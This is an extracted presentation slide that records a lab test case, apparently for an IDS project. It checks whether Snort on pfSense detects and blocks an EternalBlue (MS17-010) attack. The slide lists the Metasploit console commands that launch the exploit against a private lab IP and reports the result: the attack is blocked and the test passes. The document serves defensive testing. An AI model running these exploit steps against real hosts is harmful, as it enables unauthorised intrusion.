

Test Case 1: EternalBlue Detection - pfsense (Snort)
1)	Set up Eternalblue exploit on kali
1.1) msfconsole
1.2) search ms17-010
1.3) use 0
1.4) set RHOSTS 172.16.1.145
1.5) Exploit
2) 	Alert Generated by snort
3) 	Attacker machine is added to the block lists
4) 	Exploit is complete, but no session was created

Expected Outcome: Attack is unsuccessful, detected with alert under pfsenses Snort, and attacker IP is added to Snort Block Lists
Actual Outcome: Attack is unsuccessful, detected with alert under pfsenses Snort, and attacker IP is added to Snort Block Lists
Result: Pass
Link: https://1drv.ms/u/s!AubF3kOr_pwxgP43YBsvxLB0H-Aj8A?e=T1UlbL
30